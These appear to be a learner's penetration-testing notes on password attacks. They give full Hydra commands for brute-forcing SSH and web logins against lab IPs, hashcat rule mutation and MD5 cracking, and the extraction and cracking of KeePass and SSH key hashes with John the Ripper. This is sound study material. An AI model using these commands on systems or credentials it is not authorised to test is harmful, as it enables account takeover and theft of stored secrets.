






### Password Attacks

#### Brute Force

Brute-Force is trying a bunch of different passwords until either something works or you exhaust the list.

Tools include:

Hydra - brute-force tool

`hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://10.0.2.8:22 -t 4 -V`  

At this point you can pick a word list, here its unix_passwords.txt.  the -l (lowercase) is for a single user.  L for a userlist followed by the userlist location.  -P (uppercase) for the password list to try followed by the txt doc location to use.  lowercase if you want to try a single password followed by what you want to use.  -t is the threads which is set to 4 and the -V is verbosity in the logs.

You can also use different items such as http requests (because free burp is sloooow).

`hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.x.x http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"`





We use the info gathered from burp and the site to craft our hydra command.

`hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get://192.168.x.x/`

You can also do http-get requests.  You're looking for the same info.  With the `http-get` though, there is less to input.

metasploit can do the same thing.  
&ensp;	search for exploit, such as ssh_login or something of the sort  
&ensp;	user Metasploit the same way you would anytime  
&ensp;	set your options  
&ensp;	verify your options  
&ensp;	run your exploit  

These can run pretty slow.

#### Cracking Passwords

Many times you'll find a password field and the requirements are complex.  Needs a upper, lower, number, and special character.  Not many commonly used wordlists will fulfill these requirements.  Because of that, we may need to `mutate` our list.

`https://hashcat.net/wiki/doku.php?id=rule_based_attack` - listing of all the different mutations



Here we used `sed` to `'/^1/d'`, every line that starts with a 1 is deleted.  The `-i` means doing the editing in place.  Notice the output that was given.

`echo \$1 > demo.rule` - This line takes `\$1` and puts it into a file `demo.rule`.  This will append the number 1 to the end of each item in the list provided when we use `demo.rule` with `hashcat`.

`hashcat -r demo.rule --stdout demo.txt`



There are a whole lot of things you can do with this.  The website gives a large listing of different ways to modify items in a list.

You can also change the behavior.  If you put the rules on the same line, hashcat will treat it as 1 rule and will do all the items in that line on each one.  If you put each one on a separate line, it will do each rule independently on each entry.



`hashcat -m 0 crackme.txt /usr/share/wordlists/rockyou.txt -r demo3.rule --force`

Here we use hashcat on MD5 (`-m 0`) on `crackme.txt` which contains an MD5 hash in it.  We run it against the `rockyou.txt` wordlist and use `-r demo3.rule` rule to modify the password in the way we wanted.  `--force` just tells hashcat not to scream about warnings.

We don't always have to write our own rules.  Hashcat provides premade rules in `/usr/share/hashcat/rules/`

The rule `rockyou30000.rule` is a good rule to pair with the wordlist `rockyou.txt` as they were made to work in tandem.

#### Password Managers and SSH Passphrases

John the Ripper comes with various tools to get our database or ssh key into a format that JtR or Hashcat can work with.

`ssh2john` and `keepass2john` are just two quick ones.  There are many more though.

`keepass2john Database.kdbx > keepass.hash`  

This should give us a hash.



Remove the "Database:" tag and you have your hash that hashcat and JtR can work with.

`hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force`

This is the command to run the keepass hash with the rockyou.txt and the accompanied rule via hashcat.

SSH Passphrases are pretty similar.

However, you may run into times where you can't use hashcat.  It can't handle the cipher or whatever may be found in our research.

You still want to be able to use the rules, but you have to do it a bit different in JtR.

First, we take our `ssh.rule` file and add `[List.Rules:sshRules]` to the top.

```
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```

Then we have to add it to JtR

`sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'`

Once that is added, we can verify it with `tail /etc/john/john.conf` and making sure it was added to the end.  Then we can use `john` to crack the passphrase.

`john --wordlist=/usr/share/wordlists/rockyou.txt --rules=sshRules rsa.hash`